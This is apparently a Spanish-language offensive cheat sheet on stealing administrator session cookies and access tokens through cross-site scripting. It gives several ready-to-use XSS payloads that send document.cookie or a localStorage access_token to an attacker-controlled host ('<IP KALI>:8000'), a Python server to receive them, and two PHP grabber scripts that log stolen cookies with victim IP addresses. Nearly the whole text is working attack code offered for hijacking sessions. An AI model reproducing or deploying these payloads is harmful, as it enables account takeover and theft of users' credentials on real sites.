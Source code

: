 Obtener la cookie de administrador o el token de acceso confidencial, la siguiente carga útil lo enviará a una página controlada por nosotros:

Nos montamos un servidor con python:

```python
python -m SimpleHTTPServer
```

payload:

```javascript
<script>document.write('<img src="http://<IP KALI>:8000/noexiste.jpg?cookie='+document.cookie+'">')</script>
```

Con esto se cargara una imagen y cuando la victima entra a esa seccion donde se muestra la imagen que injectamos, en el seervidor web de python nos mostrara su cookie de sesion de ese usuario. Con esto hemos podido secuestrar su cookie. (Cookie hijacking)

Payloads alternativos:

```javascript
<script>document.location='http://<IP KALI>:8000/grabber.php?c='+document.cookie</script>

<script>document.location='http://<IP KALI>:8000/grabber.php?c='+localStorage.getItem('access_token')</script>

<script>new Image().src="http://<IP KALI>:8000/cookie.php?c="+document.cookie;</script>

<script>new Image().src="http://<IP KALI>:8000/cookie.php?c="+localStorage.getItem('access_token');</script>

```

Donde el archivo grabber.php o cookie.php de los anteriores ejemplos puede tener el siguiente codigo:

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>

```

o:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
